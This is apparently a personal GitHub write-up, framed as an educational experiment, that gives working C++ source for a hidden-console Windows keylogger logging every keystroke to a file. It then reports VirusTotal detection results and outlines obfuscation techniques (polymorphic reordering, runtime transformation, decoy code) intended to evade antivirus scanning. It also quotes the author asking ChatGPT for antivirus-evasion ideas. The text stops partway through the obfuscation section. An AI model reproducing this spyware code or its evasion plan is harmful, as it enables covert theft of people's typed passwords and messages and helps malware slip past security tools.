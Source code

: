 Malware Experimentation
---

In this experiment, i will try to develop a malware that is able to bypass antivirus softwares for educational purpose. For the sake of demonstration, i will primarily use C++ to create a malware.

Jan 21 2025
---

I have created a keylogger file using one on the internet in which it will save the output in log.txt every time i type.

```
#include <iostream>
#include <windows.h>

using namespace std;

int Save(int _key, char *file);

int main(){
    FreeConsole();

    char i;
    while(true) {
    Sleep(10);
    for(i=8; i<=255; i++) {
        if(GetAsyncKeyState(i)== -32767){
            Save(i, "log.txt");
        }
    }

} 
return 0;
}

int Save(int _key, char *file) {
    cout<< _key << endl;
    Sleep(10);
    FILE *OUTPUT_FILE; // can also use the ofstream command
    OUTPUT_FILE = fopen(file, "a+"); //a+ is used to add new keys each time, and not overwrite
    switch(_key)
    {
        case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]");
            break;
        case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]");
            break;
        case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]");
            break;
        case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]");
            break;
        case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]");
            break;
        case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]");
            break;
        case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]");
            break;
        case VK_CONTROL: fprintf(OUTPUT_FILE, "[Ctrl]");
            break;
        case VK_MENU: fprintf(OUTPUT_FILE, "[Alt]");
            break;
        case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS Lock]");
            break;
        case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]");
            break;
    }
    fprintf(OUTPUT_FILE, "%s", &_key);
    fclose(OUTPUT_FILE);
    return 0;
}
```
Next, i compiled it with g++

```
g++ -o test test.cpp
```
**File: log.txt**

![image](https://github.com/user-attachments/assets/ef8020dd-bf85-4d72-98ef-9adac3c205fa)

As you can see from the output file, it records everything when this file is running. Now let's see how it is evaluated in VirusTotal.

Static Analysis
---

![image](https://github.com/user-attachments/assets/3eec70fa-01ad-49a6-8db8-17eb5c6846be)

Dynamic Static Analysis
--

![image](https://github.com/user-attachments/assets/bb10c840-78cf-4076-a3a7-bd7dae1d0582)


**Results:** It seems that some antivirus flag this file as a spyware which is correct but at this momemt it isn't a spyware yet! (and some give us false positive result lol)

> [!Tip]
> If we want our soon-to-be spyware undetected, we need to wear a ghillie suit!

With that being said, we will now obfuscate the code to make things harder for VirusTotal!

What we are going to do is obfuscation. This proccess makes AVs especially static analysis having a hard time due to it couldn't inspect the code because the code does not make any sense! AVs usually detects behavioral patterns, dangerous commands some also implemented AI for this very purpose. Tha'ts where obfuscation came in. 

> [!Tip]
> Obfuscation can be de-obfuscation or reverse engineering if they wanted to!

Here is my idea when i want to obfuscate my spyware. I ask ChatGPT with this idea:

> [!NOTE]
> i want somethnig that make the code readable but when AV inspect it. It gets another definition. No patterns are made. make it random as possible. what technique do you think is closest to this one?ontent.

Obfuscation Techniques:
--
1. Polymorphic Code (Randomization) => Randomize and reorder functions so that static analysis couldn't found matched functions.
2. Runtime Code Transformation => Malicious logic code executes only when it is being called. When it is not being called, it will be hidden.
3. Decoy Code (Misdirection) => Make a decoy function that seems like a legitimate function.

This should make AVs focus on the decoy code(Decoy Code (Misdirection)) while concealing most of the code logic in which it prevents AVs from trying to understand the code(Polymorphic Code (Randomization)). Lastly, the malicious code logic is executed when being called. (Runtime Code Transformation)

Polymorphic Code (Randomization)
--

In the example of sourcecode, we will drag main() below to make it illogical for Static Analysis. 

```
int main(){
    FreeConsole();

    char i;
    while(true) {
    Sleep(10);
    for(i=8; i<=255; i++) {
        if(GetAsyncKeyState(i)== -32767){
            Save(i, "log.txt");
        }
    }

} 
return 0;
}
```


References
---

**1.What is Polymorphic Function:** https://www.geeksforgeeks.org/polymorphic-function-in-compiler-design-1/
